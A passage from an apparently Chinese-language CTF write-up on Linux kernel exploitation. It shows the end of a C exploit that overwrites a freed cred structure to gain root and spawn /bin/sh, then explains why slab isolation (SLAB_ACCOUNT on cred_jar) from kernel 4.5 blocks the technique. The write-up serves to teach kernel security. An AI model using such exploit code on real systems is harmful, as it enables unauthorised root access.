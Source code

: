 ```c
    close(fd1);

    int pid = fork();

    if(pid < 0)
    {
        printf("\033[31m\033[1m[x] Unable to fork the new thread, exploit failed.\033[0m\n");
        return -1;
    }
    else if(pid == 0) // the child thread
    {
        char buf[30] = {0};
        write(fd2, buf, 28);

        if(getuid() == 0)
        {
            printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
            system("/bin/sh");
            return 0;
        }
        else
        {
            printf("\033[31m\033[1m[x] Unable to get the root, exploit failed.\033[0m\n");
            return -1;
        }
    }
    else // the parent thread
    {
        wait(NULL);//waiting for the child
    }

    return 0;
}
```
<br>

### 2.堆块隔离绕过<br>
因此本次题目的linux版本为`4.4.72`比较古老，没有堆块隔离，所以可以通过上述方法进行进攻<br>
从`4.5.0`开始，linux实现了堆块隔离<br>
```c
void __init cred_init(void)
{
    /* allocate a slab in which we can store credentials */
    cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
            SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
}
```
重点关注`SLAB_ACCOUNT`标志，在4.5以前的版本中，并没有该标志，改标志使得创建名为`cred_jar`的结构体时，不会与相同大小的 `kmalloc-192` 合并（大概意思是，原来cred_jar和kmalloc-192其实是同一个cache）。<br>
因此从4.5版本后，使用该攻击手法无法劫持cred结构体。<br>
因此尝试新办法。<br>
